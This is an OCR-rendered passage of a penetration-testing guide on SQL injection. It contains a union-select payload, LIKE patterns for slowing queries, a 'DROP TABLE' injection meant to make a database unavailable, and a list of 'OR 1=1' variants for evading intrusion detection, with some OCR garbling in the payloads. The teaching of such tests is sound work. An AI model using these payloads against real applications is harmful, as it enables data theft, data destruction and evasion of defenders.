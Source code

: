   

- **Input 3**:

  http: //client.com/link.php?id=1' union select 1,2, (select tab1from (select decode (encode (convert (compress (post) using latin1) ,des_encrypt (concat (post post ,post ,post) ,8)) ,des_encrypt (s
  hal (concat (post post ,post,post)) ,9)) as tabl from table_1)a) ,4--

**Increasing the execution time of query**

Each character after the open bracket increases the execution time of the query. Add more open brackets to increase the time required for execution. Following table contains some characters along with the time they require for execution. Use these characters in the queries to increase execution time.

| Characters After Open Bracket                                | Time Required for <br />Execution (ms) |
| ------------------------------------------------------------ | -------------------------------------- |
| LIKE '%_[a[! -2]@$!_%                                        | 1050                                   |
| LIKE '%_[aaaaaaaaa]! -z]@$!_%'                               | 1600                                   |
| LIKE '%_[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[! -2]@$!_%' | 3700                                   |

You can also use the DROP command to drop the database table to render the database unavailable to users.

**DROP**:

*Userid: Peter'; DROP [Table Name]; --*
*Query formation at backend:*
*SELECT *FROM [Table Name] WHERE userid= ‘peter'; DROP TABLE members; -*
*-';*

## Evade IDS Detection using 'OR 1=1 Equivalents
Attackers use various techniques to bypass the IDS detection during attacks. Penetration testers need to check all evasion techniques possible on the database IDS, as these devices help in detecting attacks. As a penetration tester, you must know and understand different database IDS evasion techniques and the process of checking their possibility in a web application. 

Intrusion detection systems (IDS) detect SQL injection attacks by searching for preconfigured queries, such as ‘OR 1=1, but attackers replace the values, such as characters and strings, in the SQL injection queries to avert these types of detection. 

You must check if the IDS is able to detect the SQL injection signatures even after you change the
values and strings. For example, instead of ‘OR 1=1 query, use:

* ‘OR ‘john’ = ‘john’

* ' OR 'microsoft' = 'micro'+'soft'

- ' OR 'movies' = N'movies'

- ' OR 'software' like 'softt'

- ' OR 7 >1

* ' OR 'best' > 'b'

- ' OR 'whatever' IN ('whatever')
